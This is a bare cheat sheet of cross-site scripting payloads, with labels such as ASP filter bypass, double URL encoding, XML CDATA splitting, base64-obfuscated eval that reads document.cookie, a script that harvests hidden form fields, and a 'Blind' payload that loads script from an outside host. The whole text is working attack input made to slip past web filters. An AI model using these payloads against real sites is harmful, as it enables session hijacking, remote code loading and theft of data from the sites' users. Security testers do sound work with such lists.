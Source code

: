 ASP filter bypass

```%u003Cscript%u003Eprompt%u0028303%u0029%u003C/script%u003E```

Double URL encoding

```%253Cscript%253Ealert(1)%253C%252Fscript%253E```

XSS in XML

```<![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>```

 Where :// is required after protocol

```javascript://%250aalert(1)```

```"\"><s>test"@gmail.com```  XSS in email addresses
  
```javascript:eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));```

```<script>eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));</script>```

```<imG/sRc=l oNerrOr=(prompt)() x>```
"><script src=https://a007.xss.ht></script>											Blind 
<body onpageshow=alert(1)>
<style onload=alert(1)>
<marquee behavior="alternate" onstart=alert(1)>hack the planet</marquee>
<d3"<"/onclick="1>[confirm``]"<">z
&lt;script&gt;confirm(1)&lt;/script&gt;                                              HTML Encoding
“=””’></><script></script><svg onload=alert(1)>
<script>var xss = '';f=document.forms;for(i=0;i<f.length;i++){e=f[i].elements;for(n in e){if(e[n].type=='hidden'){alert(e[n].name+': '+e[n].value)}}};//'';</script>    GET Hidden Fields
<table><thead style=font-size:100px onmouseover=prompt(1)><td>XSS
<svg/x=">"/onload=confirm()//
<sCript x>(((confirm)))``</scRipt x>
